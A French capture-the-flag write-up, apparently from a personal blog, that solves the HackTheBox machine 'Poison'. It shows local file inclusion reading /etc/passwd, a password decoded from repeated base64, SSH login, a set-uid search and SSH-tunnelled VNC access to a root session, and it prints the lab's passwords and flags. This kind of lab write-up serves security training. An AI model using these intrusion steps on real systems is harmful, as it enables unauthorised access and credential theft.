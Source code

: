 # Solution du CTF Poison de HackTheBox

Nitro
-----

Ce moment où tu fais le compte des CTF résolus sur [HackTheBox](https://www.hackthebox.eu/) et que tu es en retard sur l'écriture des writeup pour seulement... 6 machines :D  

Allez ! Le pwnage ne prend pas de vacances ! On est pas des manches, on se remonte les manches !  

Level 1
-------

C'est parti pour le sempiternel scan de ports :  

```plain
Nmap scan report for 10.10.10.84
Host is up (0.027s latency).
Not shown: 47967 filtered ports, 17554 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
80/tcp   open  http?
|_http-comments-displayer: Couldn't find any comments.
|_http-fetch: Please enter the complete path of the directory to save data in.
|_http-mobileversion-checker: No mobile version detected.
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-security-headers: 
|_http-traceroute: ERROR: Script execution failed (use -d to debug)
| http-useragent-tester: 
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
|_http-xssed: No previously reported XSS vuln.
5802/tcp open  vnc-http-2?
5803/tcp open  vnc-http-3?
5804/tcp open  unknown
5805/tcp open  unknown
5902/tcp open  vnc         VNC (protocol 3.8)
|_unusual-port: vnc unexpected on port tcp/5902
5903/tcp open  vnc         VNC (protocol 3.8)
|_unusual-port: vnc unexpected on port tcp/5903
5904/tcp open  vnc         VNC (protocol 3.8)
5905/tcp open  vnc         VNC (protocol 3.8)
6002/tcp open  X11:2?
|_x11-access: ERROR: Script execution failed (use -d to debug)
6003/tcp open  X11:3?
|_x11-access: ERROR: Script execution failed (use -d to debug)
6004/tcp open  X11:4?
|_x11-access: ERROR: Script execution failed (use -d to debug)
6005/tcp open  X11:5?
|_x11-access: ERROR: Script execution failed (use -d to debug)
Device type: firewall
Running (JUST GUESSING): Fortinet embedded (87%)
OS CPE: cpe:/h:fortinet:fortigate_100d
Aggressive OS guesses: Fortinet FortiGate 100D firewall (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

Hmmm X11 ? Ça fait loooooongtemps que j'ai pas joué avec ça mais on se prépare mentalement au cas où :p  

Nmap y voit du *Fortinet* mais d'après la classification sur HackTheBox on sait à l'avance que l'on a affaire à du FreeBSD :)  

Sur la page d'index du serveur web se trouve un formulaire permettant d'exécuter un script PHP parmi plusieurs choix existants :  

![Index page of Poison CTF from HackTheBox](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/poison_index.png)

Ce script est largement vulnérable puisque si l'on saisit */etc/passwd* dans le champ de texte on obtient le contenu du fichier qui révèle la présence d'un utilisateur nommé *charix*.  

Parmi les scripts déjà présents le fichier *listfiles.php* liste le contenu du dossier courant (la racine web) et indique la présence du fichier *pwdbackup.txt* que voici :  

```plain
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

Il suffit de lancer un interpréteur Python, mettre cette chaîne dans une variable et faire une boucle de décodage base64 jusqu'à une exception de décodage arrive :  

```plain
>>> while True:
...   s = b64decode(s).decode()
...
Traceback (most recent call last):
  File "<stdin>", line 2, in <module>
  File "/usr/lib/python3.6/base64.py", line 87, in b64decode
    return binascii.a2b_base64(s)
binascii.Error: Incorrect padding
>>> s
'Charix!2#4%6&8(0'
```

Ce mot de passe nous permet de nous connecter via ssh (et oui déjà !) :  

```plain
devloop@kali:~$ ssh charix@10.10.10.84
Password for charix@Poison:
Last login: Mon Aug 20 18:07:20 2018 from :9
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

---snip---

Edit /etc/motd to change this login announcement.
Need to quickly empty a file? Use ": > filename".
        -- Dru <genesis@istar.ca>
charix@Poison:~ % id
uid=1001(charix) gid=1001(charix) groups=1001(charix)
```

Et d'obtenir le flag utilisateur : *eaacdfb2d141b72a589233063604209c*   

Level 2
-------

Dans le home de l'utilisateur se trouve une archive protégée par mot de passe (*secret.zip*) ouvrable avec le même password que le SSH.  

Cela nous donne un fichier *secret* dont le contenu est le suivant :  

```plain
$ hexdump -C secret
00000000  bd a8 5b 7c d5 96 7a 21                           |..[|..z!|
```

Et dans le dossier *.vnc* de l'utilisateur on trouve aussi un fichier passwd :  

```plain
$ hexdump -C passwd
00000000  60 d7 57 ef 13 4f ff 41                           |`.W..O.A|
```

C'est toujours un peu déstabilisant de se retrouver sur du BSD en raison des options des utilitaires qui ne sont pas tout à fait les même. Là on avait en plus à gérer un shell csh. Ainsi pour lister les exécutables set-uid il fallait à titre d'exemple lancer la commande suivante :  

```bash
(find / -user root -type f -perm -u+s > /dev/tty) > & /dev/null
```

Plutôt que de fouiller dans les pages de manuel les bonnes options c'est parfois plus simple d'utiliser une commande alternative. Exemple pour remplacer netstat -lntp :  

```plain
charix@Poison:~ % sockstat -4 -l
USER     COMMAND    PID   FD PROTO  LOCAL ADDRESS         FOREIGN ADDRESS
www      httpd      913   4  tcp4   *:80                  *:*
www      httpd      911   4  tcp4   *:80                  *:*
www      httpd      907   4  tcp4   *:80                  *:*
www      httpd      906   4  tcp4   *:80                  *:*
www      httpd      905   4  tcp4   *:80                  *:*
www      httpd      904   4  tcp4   *:80                  *:*
www      httpd      902   4  tcp4   *:80                  *:*
www      httpd      900   4  tcp4   *:80                  *:*
www      httpd      852   4  tcp4   *:80                  *:*
root     sendmail   729   3  tcp4   127.0.0.1:25          *:*
www      httpd      716   4  tcp4   *:80                  *:*
root     httpd      675   4  tcp4   *:80                  *:*
root     sshd       620   4  tcp4   *:22                  *:*
root     Xvnc       529   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       529   3  tcp4   127.0.0.1:5801        *:*
root     syslogd    390   7  udp4   *:514                 *:*
```

La recherche classique sur les fichiers n'ayant rien remonté on remarque la présence d'un Xvnc dans les process avec l'utilisation d'un fichier *passwd* présent dans un dossier *.vnc* :  

```plain
Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten...
```

On peut essayer de s'y connecter avec l'un des fichiers que l'on a récupéré. Pour cela on fait d'abord une redirection de port via SSH :  

```bash
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```

Il suffit alors d'utiliser *xvncviewer* en spécifiant le display. le principe est le suivant : les numéros de displays commencent à 5900 donc le 1 correspondra à notre port forwardé 5901 (souvenirs, souvenirs...)  

On s'en tire alors avec la commande *xvncviewer -passwd secret 127.0.0.1:1* qui nous amène face à un terminal root qui traînait par là :  

![Poison HackTheBox CTF final root flag with xvncviewer](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/poison_root_flag.png)

Game over
---------

[One more in the bank !](https://www.youtube.com/watch?v=Rre3zgL7eMk) Next one...

*Published September 08 2018 at 18:46*